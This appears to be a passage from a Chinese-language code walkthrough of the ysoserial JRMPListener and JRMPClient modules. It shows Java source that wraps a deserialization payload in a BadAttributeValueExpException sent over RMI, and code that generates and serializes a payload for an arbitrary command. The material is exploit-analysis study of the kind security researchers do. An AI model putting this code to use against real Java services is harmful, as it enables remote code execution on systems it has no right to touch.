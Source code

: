 ```bash

    if ( read.hashCode() == 2 ) {
        ois.readInt(); // method
        ois.readLong(); // hash
        System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject()));
    }

    System.err.println("Sending return with payload for obj " + read);
    //向输出流 out 写入一个字节，表示传输操作为返回操作
    out.writeByte(TransportConstants.Return);// transport op
    // 用于将对象写入输出流 out 中
    ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this.classpathUrl);
    // 向 oos 写入一个字节，表示传输操作为异常返回
    oos.writeByte(TransportConstants.ExceptionalReturn);
    // 创建一个新的 UID 对象，并将其写入 oos
    new UID().write(oos);

    BadAttributeValueExpException ex = new BadAttributeValueExpException(null);
    // 关键在于这里，将payload写入到ex对象的val属性，并写入输出流
    Reflections.setFieldValue(ex, "val", payload);
    oos.writeObject(ex);

    oos.flush();
    out.flush();

    this.hadConnection = true;
    synchronized ( this.waitLock ) {
        this.waitLock.notifyAll();
    }
}
```

最后 JRMPClient 端收到响应的数据

### payloads.JRMPClient

```bash
PayloadRunner.run(JRMPClient.class, args);
```

进入 run 方法  
**第一步：生成 payload**

```bash
byte[] serialized = new ExecCheckingSecurityManager().callWrapped(new Callable<byte[]>(){
    public byte[] call() throws Exception {
        final String command = args.length > 0 && args[0] != null ? args[0] : getDefaultTestCmd();

        System.out.println("generating payload object(s) for command: '" + command + "'");

        ObjectPayload<?> payload = clazz.newInstance();
        final Object objBefore = payload.getObject(command);

        System.out.println("serializing payload");
        byte[] ser = Serializer.serialize(objBefore);
        Utils.releasePayload(payload, objBefore);
        return ser;
}});
```

